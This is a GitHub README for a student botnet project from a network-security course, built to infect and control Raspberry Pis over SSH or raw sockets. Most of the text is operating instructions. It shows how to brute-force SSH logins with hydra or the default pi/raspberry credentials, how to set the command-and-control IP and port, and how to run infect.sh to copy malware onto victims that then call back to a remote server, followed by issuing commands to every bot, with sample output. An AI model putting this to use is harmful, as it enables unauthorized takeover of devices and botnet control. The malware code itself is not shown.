 # Raspberry Pi Botnet

Implimentation of botnet malware designed to infect and control a set of raspberry PIs. For educational purposes only, as a final project of University of Windsor's 60-467 network security course.

This project includes 2 approaches to implimenting a botnet using python: Via SSH and via raw sockets.

## Getting Started

These instructions will get you a copy of the project up and running on your local machine for development and testing purposes. See deployment for notes on how to deploy the project on a live system.

### Prerequisites

- hydra (For performing a dictionary attack on target Rasp PI SSH servers)
- python3
- pip3 (For installing pexpect)
- pexpect (For the SSH botnet)


### Installing

1.  Install hydra, and python3
```
$ sudo apt install hydra python3
```

2.  Install pip3, so that we can use it to install pexpect
```
$ sudo apt install pip3
```

3.  Install pexpect
```
$ pip3 install pexpect
```

## Running the SSH botnet

The SSH botnet uses pexpect to handle SSH connections. It assumes that all of the target hosts are running an SSH server on port 22, that the attacking machine can reach the target raspberry PI, and that there exists a user on each target machine with the default login for a raspberry pi (pi/raspberry).

Usage:
```
$ python3 cnc.py [IP addresses or hostnames of target Raspberry PIs]
```

Example:
```
$ python3 cnc.py 192.168.0.50
Adding clients...
	Client: 192.168.0.50 
Number of clients connected: 1
$ pwd
[*]Output from 192.168.0.50
[+]pwd
/home/pi

$ ls
[*]Output from 192.168.0.50
[+]ls
client   Documents  Music      Pictures  python_games  tmp
Desktop  Downloads  myScripts  Public    Templates     Videos
```

## Running the Socket botnet

The socket botnet uses sockets in python to send commands to the targets. It does not require standard user login for the target hosts (pi/raspberry), or for the target to be running SSH on port 22. Once the client has been infected, it will initiate communication with the command and control server (which can be remote, unlike the SSH botnet).

1. Modify the IP and port of the infection script to reflect the IP and port of your remote command and control server. This will be the IP/port that each target PI will attempt to connect to, in order to recieve commands.
```
$ vim infect.sh
CNC_IP=1.1.1.1
CNC_PORT=50000
```

2. Start the command and control server on the remote host. It is recommended to run this in tmux or screen to maintain a persistent TTY (just in case you close the SSH session to your remote host).
```
user@remote_server $ python3 server.py [IP to bind to] [Port to bind to]

# Example:
# $ python3 server.py 1.1.1.1 50000
Binding on [1.1.1.1]:50000...
```

3. Infect your victims. This will copy the malware to the victim, and the client code will begin executing on the target PI. Once infected, they will attempt to communicate with the remote server.
```
# Show usage:
$ ./infect.sh

# Example usages:
$ ./infect.sh -t [victim IP]
$ ./infect.sh -l [Alternate login] -p [Alternate password] -t [victim IP]
$ ./infect.sh -L [Alternate login file] -P [Alternate password dictionary] -t [victim IP]

# Examples:
$ ./infect.sh -t 2.2.2.2
$ ./infect.sh -t 2.2.2.2 -l alternate_username -p alternate_password
$ ./infect.sh -t 2.2.2.2 -L username_list.txt -p common_passwords.txt
```

4. On the remote host, you should see clients connected. From here, you can send commands from the same TTY/process from step 2.
```
# TTY from step 2:
$ Client connected: ('1.1.1.1', 37280)->('2.2.2.2', 50000)
$ !exec ls
Sending command [ls] to 1 clients...
Sending to: ('2.2.2.2', 50002)
$ !exec ls -lah
Sending command [ls -lah] to 1 clients...
Sending to: ('2.2.2.2', 50002)
```
These commands execute on all connected target hosts. Output can be seen on the target if you were to run the client code (client/run.py) manually.

## Built With

* [hydra](http://sectools.org/tool/hydra/) - Used for password cracking 
* [pexpect](http://pexpect.sourceforge.net/pxssh.html) - Used for handling SSH connections via python 

## Contributing

Since this project is completed and submitted, no further work is expected to be done on the project. Feel free to fork the repo if you're interested in continuing the work here.

## License

This project is licensed under the MIT License - see the [LICENSE.md](LICENSE.md) file for details

## Acknowledgments
* My group members, Ryan and Paul, for their contributions.
* Sherif Saad Ahmed, for the leadership and teaching of the course.
* [Linux Journal](http://www.linuxjournal.com/content/validating-ip-address-bash-script) for the bash script to validate IP addresses.
* [Charles Leifer](http://charlesleifer.com/blog/simple-botnet-written-python/) for inspiration, and for help with understanding raw python sockets.
* [bjacharya at cybrary](https://www.cybrary.it/0p3n/python-programming-hackers-part-6-creating-ssh-botnet/) for inspiration, and for help with pexpect library.
* Thanks to PurpleBooth for the github [README template](https://gist.github.com/PurpleBooth/109311bb0361f32d87a2)
